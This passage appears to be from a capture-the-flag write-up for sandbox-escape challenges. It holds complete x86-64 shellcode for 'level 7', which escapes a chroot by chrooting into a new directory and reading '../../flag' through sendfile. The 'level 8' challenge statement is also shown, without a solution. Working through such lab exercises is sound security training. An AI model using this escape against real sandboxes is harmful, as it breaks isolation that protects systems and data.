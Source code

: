 
&nbsp;

## level 7
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "chdir", "chroot", "mkdir", "open", "read", "write", "sendfile".

```
.global _start
.intel_syntax noprefix

_start:
	# Mkdir syscall
	lea rdi, [rip + new_jail]
	mov rsi, 0
	mov rax, 0x53 
	syscall

	# Chroot syscall
	lea rdi, [rip + new_jail]
	mov rax, 0xa1
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

new_jail:
	.string "/newjail"

flag:
	.string "../../flag"
```

&nbsp;

## level 8 
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: ."openat", "read", "write", "sendfile".
